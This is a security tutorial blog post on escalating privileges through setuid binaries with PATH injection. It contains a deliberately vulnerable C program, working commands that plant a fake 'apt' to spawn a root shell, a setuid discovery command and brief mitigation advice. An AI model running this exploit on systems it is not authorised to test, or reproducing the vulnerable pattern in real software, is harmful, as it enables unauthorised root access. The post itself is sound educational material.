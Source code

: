 +++
title = "Privilege escalation using setuid"
date = "2020-09-17"
author = "Aloïs Micard"
authorTwitter = "" #do not include @
cover = ""
tags = ["Security", "Privilege Escalation"]
keywords = ["", ""]
description = ""
showFullContent = false
+++

[Setuid](https://en.wikipedia.org/wiki/Setuid) is a Unix access rights flag that allow users to run an executable 
with the file system permissions of the executable's owner.

For example the following executable:

```sh
$ stat /usr/bin/passwd
  File: /usr/bin/passwd
  Size: 63736     	Blocks: 128        IO Block: 4096   regular file
Device: 801h/2049d	Inode: 2237        Links: 1
Access: (4755/-rwsr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
```

will be executed as root (Uid 0), no matter what the current user is.
This allows un-privileged user to change their password by editing `/etc/shadow` (root owner) using passwd.

# How setuid may be exploited?

As you may already guess, being able to run process as different user may have serious implications,
especially if the executable owner is root.

It means that executables with set{g,u}id flag must be carefully designed to prevent any exploitation.
This is generally the case for executables that comes with the OS, but sometimes administrator may install / craft
exploitable executable, that will greatly help hackers escalate privileges.

Let's see how we can exploit a badly designed setuid program to gain root access.

# Exploiting a setuid executable

They are multiple ways to exploit an executable (buffer overflow, stack overflow, etc...)
in this section we will focus on one of the easiest vulnerability to exploit: path injection.

## Path injection

Path injection is a common vulnerability. It happens when an executable refer to
another one without using the full path to it. Let's take an example:

```sh
$ cat apt-updater.c
#include <stdlib.h>
#include <unistd.h>

int main() {
  setuid(0);

  system("apt update");
  system("apt upgrade -y");
  return 0;
}
```

this executable has been designed by a sysadmin to allows non-root users to update the server packages
to their latest version (very bad practice btw).

While it may look simple & secure, it has an **important** vulnerability: a path injection vulnerability:

It uses the [apt](https://manpages.debian.org/buster/apt/apt.8.en.html)
executable but doesn't invoke directly `/usr/bin/apt` but rather relies on apt to be in the [PATH](https://en.wikipedia.org/wiki/PATH_(variable)).

Let's see how we can use this at our advantages by polluting the PATH.

### How the PATH work exactly?

The PATH variable is used to lookup executables when issuing command. It is composed of directories to include
while searching, separated by a semicolon ':'.

For example: `/usr/local/bin:/usr/bin:/bin` means that executables will be searched in the following directories:

- /usr/local/bin
- /usr/bin
- /bin

The search will stop when the executable is found. It means that if apt is present in `/usr/local/bin/apt` it will not
be searched in the others directories.

### Exploiting the vulnerability

Since the executable relies on the PATH to lookup apt location, we can simply create a dummy `apt` executable script
that will open a shell (/bin/sh) and place it in a directory that will be in the PATH.

```sh
$ mkdir /tmp/foo # create random directory to put the script
$ echo /bin/sh > /tmp/foo/apt # create the script that will launch /bin/sh
$ chmod 755 /tmp/foo/apt # mark it as executable
$ PATH=/tmp/foo:$PATH /usr/local/bin/apt-updater # override the PATH variable to that it contains /tmp/foo directory & execute the vulnerable program
# id # we are root!
uid=0(root) gid=1001(creekorful) groups=1001(creekorful)
```

When the OS has look up the apt executable it searches in the following location:

- /tmp/foo
[rest of the path]

since we have appended /tmp/foo at first, the OS was able to find the apt executable in it
and has executed it (with root privileges since they are propagated). 

# Finding vulnerable executables

Search for files with setuid bit set:

```sh
$ find / -xdev -perm -4000 2>/dev/null
/usr/local/bin/apt-updater
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/chsh
```

here almost all executables look 'classic' ones and may not be easily vulnerable.

One executable looks interesting: `/usr/local/bin/apt-updater`, it looks manually crafted
and may have been badly designed.

It is fairly easy to determinate if the executable is vulnerable: one could simply look if it calls
other executables without using full path.

This is done easily by using [strings](https://manpages.debian.org/buster/binutils-common/strings.1.en.html)
which is a program used to extract printable characters from a file.

```sh
$ strings /usr/local/bin/apt-updater
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
__libc_start_main
[...]
apt update
apt upgrade -y
```

It looks like apt-updater run `apt update` and `apt upgrade -y` without using full path. 
Path injection may be possible.

# How to mitigate the exploit?

The easiest way to prevent these exploits is simply by not using set{g,u}id executable at ALL.
I mean, the ones installed by default can be trusted, but you shouldn't make one.

Better & simple options are available, such as using [sudoers](https://linux.die.net/man/5/sudoers) for example.

Happy hacking!
